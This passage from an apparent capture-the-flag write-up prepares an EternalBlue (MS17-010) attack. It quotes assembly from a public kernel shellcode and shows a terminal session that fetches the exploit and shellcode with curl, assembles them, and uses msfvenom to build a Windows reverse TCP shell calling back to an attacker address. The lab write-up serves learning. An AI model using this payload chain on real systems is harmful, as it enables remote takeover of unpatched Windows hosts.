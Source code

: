 Once agaiin, the scans lead to the same conclusion that the host is vulnerable to eternalblue. So the next step was to hop on google and [exploitdb](https://www.exploit-db.com) to start looking for an exploit.

### Preparing the attack

The first result that turned up was an exploit from Sleepya [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)](https://www.exploit-db.com/exploits/42031), whereas google pointed me to [worawit/MS17-010](https://github.com/worawit/MS17-010/). Upon further inspection, they looked to like the same exploit, but the worawit link provided shellcode that could be used as the basis for a payload.

Looking deeper into the [eternalblue_kshellcode_x64.asm shellcode](https://github.com/worawit/MS17-010/blob/master/shellcode/eternalblue_kshellcode_x64.asm), it looked like the shellcode expected a user payload to be appended to the end of the binary both of which still needed to be prepared.

```asm
userland_start:
userland_start_thread:
    ; CreateThread(NULL, 0, &threadstart, NULL, 0, NULL)
    xchg rdx, rax   ; rdx is CreateThread address passed from kernel
    xor ecx, ecx    ; lpThreadAttributes = NULL
    push rcx        ; lpThreadId = NULL
    push rcx        ; dwCreationFlags = 0
    mov r9, rcx     ; lpParameter = NULL
    lea r8, [rel userland_payload]  ; lpStartAddr
    mov edx, ecx    ; dwStackSize = 0
    sub rsp, 0x20
    call rax
    add rsp, 0x30
    ret
    
userland_payload:
```

With all this in mind, I then pulled down the python exploit script and shellcode and assembled the latter with nasm as a flat binary. Then I generated an unstaged tcp reverse shell for windows as a payload, also a flat binary, and joined the contents contents into a single `sc_joined.bin` payload. One pointless thing to note is I added an arbitrary nop sled to the payload. This could have been left out.

```bash
root@kali:~/ctf/scans# cd ../
root@kali:~/ctf# mkdir exploits && cd exploits
root@kali:~/ctf/exploits# curl -o 42031.py https://www.exploit-db.com/raw/42031
root@kali:~/ctf/exploits# curl -sO https://raw.githubusercontent.com/worawit/MS17-010/master/shellcode/eternalblue_kshellcode_x64.asm
root@kali:~/ctf/exploits# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
root@kali:~/ctf/exploits# msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows -f raw -n100 LPORT=443 LHOST=10.10.47.175 > reverse.bin
No encoder specified, outputting raw payload
Successfully added NOP sled of size 100 from x64/simple
Payload size: 560 bytes
root@kali:~/ctf/exploits# ls
42031.py  eternalblue_kshellcode_x64.asm  reverse.bin  sc_joined.bin  sc_x64_kernel.bin
root@kali:~/ctf/exploits# cat sc_x64_kernel.bin reverse.bin > sc_joined.bin 
```
